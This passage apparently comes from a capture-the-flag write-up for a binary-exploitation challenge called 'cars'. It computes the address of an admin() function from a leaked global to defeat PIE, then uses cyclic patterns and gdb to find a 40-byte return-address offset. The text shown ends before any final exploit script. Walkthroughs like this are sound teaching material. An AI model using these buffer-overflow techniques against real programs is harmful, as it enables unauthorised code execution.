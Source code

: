 This function seems like our goal, which will read and give us the flag.

If we are able to overwrite our return address with the address of this function, we will be able to call this function and get the flag.

However, do we know the address of the `admin()` function? 

If we look at the `checksec` output above, we note that the program has the [**Positional Independent Executable (PIE)**](https://www.redhat.com/en/blog/position-independent-executables-pie). This essentially means that the program is loaded at a random address everytime that it is executed, which means that we will not be able to determine the `admin()` function without an address leak.

Thankfully, from the `main()` function, we saw that the program printed us the address of the `report_number` global variable. Let's see how we can get this to work.

```sh
➜ nm ./cars
# ... truncated ...
000000000000128e T admin
0000000000004090 B report_number
# ... truncated ...
```

In the output shown above, we have the offset of the `admin()` function and the `report_number` variable from the base of where the executable is loaded in memory.

Given the address of `report_number`, we can do the following:

```py
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E
```

### Exploit

In order to find the padding it takes to overwrite the return address, we can use a [cyclic/de-brujin sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to find our return address.

#### Find our padding

```sh
➜ cyclic -n8 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

➜ gdb cars

pwndbg> run
Starting program: ./cars
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to the Cyber Affairs Reporting System (CARS)
Report number: #93824992247952
Please input your student ID: a
Please describe the incident: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
The matter has been recorded and will be investigated. Thank you.

Program received signal SIGSEGV, Segmentation fault.
0x000055555555528d in file_report () at pie_rop.c:22

... truncated ...

► 0x55555555528d <file_report+113>    ret    <0x6161616161616166>

pwndbg> cyclic -n8 -l *(long*)rsp
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```
